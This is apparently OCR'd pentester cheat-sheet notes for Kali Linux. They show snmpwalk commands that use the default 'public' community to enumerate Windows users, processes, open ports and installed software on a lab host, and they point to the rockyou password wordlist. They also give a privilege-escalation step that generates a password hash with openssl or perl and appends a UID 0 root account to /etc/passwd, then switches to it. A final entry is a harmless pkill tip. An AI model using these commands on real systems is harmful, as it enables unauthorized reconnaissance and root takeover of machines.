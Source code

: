 
=====================================
190
snmpwalk


Enumerating Windows Users
root@kali:~# snmpwalk -c public -v1 10.11.1.204 1.3.6.1.4.1.77.1.2.25




Enumerating windows running processes
root@kali:~# snmpwalk -c public -v1 10.11.1.204 1.3.6.1.2.1.25.4.2.1.2


Enumerating Open TCP ports
root@kali:~# snmpwalk -c public -v1 10.11.1.204 1.3.6.1.2.1.6.13.1.3


Enumerating installed softwares
root@kali:~# snmpwalk -c public -v1 10.11.1.204 1.3.6.1.2.1.25.6.3.1.2


=====================================
191
kali wordlist file
/usr/share/wordlists/rockyou.txt




==========================================
192 generate encrypt a linux pass to be used in /etc/passwd


root@kali:/opt/linux-pe-scripts# openssl passwd -1 -salt elbeast hackthebox
$1$elbeast$97Aakv1Z8JeMFntbN8.je/


echo elbeast:$1$elbeast$97Aakv1Z8JeMFntbN8.je/:0:0:root:/root:/bin/bash >> /etc/passwd




OR with perl
perl -e ‘print crypt("YourPasswd", "salt"),"\n"'
    example
            perl -e ‘print crypt("pom", "pom"),"\n"’

Now that we know the password hash we can add the following line to the passwd database:
pom:poD7u2nSiBSLk:0:0:root:/root:/bin/bash
su pom






===========================================
193


kill processes with a matching name or regex
pkill -f '^something.*'    ** kills amy process that starts with the name something.

